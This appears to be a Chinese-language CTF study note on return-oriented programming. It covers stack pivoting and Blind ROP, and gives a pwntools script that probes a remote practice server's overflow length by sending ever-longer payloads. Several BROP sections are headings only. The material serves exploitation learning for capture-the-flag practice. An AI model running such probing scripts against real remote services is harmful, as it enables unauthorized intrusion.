

# ROP编程

## 栈迁移

前提是有栈溢出，可以覆盖掉ebp或者rbp，甚至返回地址，

当只能溢出到rbp时，可以搭配输入函数，可以实现任意地址写，比如



# BROP

`brop`是一项非常巧妙的技术，在无法获取到二进制程序和`libc`的情况下进行远程溢出

## 寻找溢出长度

```python
from pwn import *
def getsize():
  i=1
  while 1:
    try:
      p=remote('node5.buuoj.cn',9999)
      p.recvuntil('password?\n')
      p.send(b'A'*i)
      data=p.recv()
      p.close()
      if not data.startswith('No password'):
        return i-1
      else:
        i+=1
     except EOFError:
        p.close()
        return i-1
      
size=getsize()
print(size)
```

## 寻找stop gadgets

## 寻找 brop gadgets

## 寻找 puts 函数的 plt 地址

## 寻找 puts 函数的 got 地址并 [dump](https://so.csdn.net/so/search?q=dump&spm=1001.2101.3001.7020) plt 表
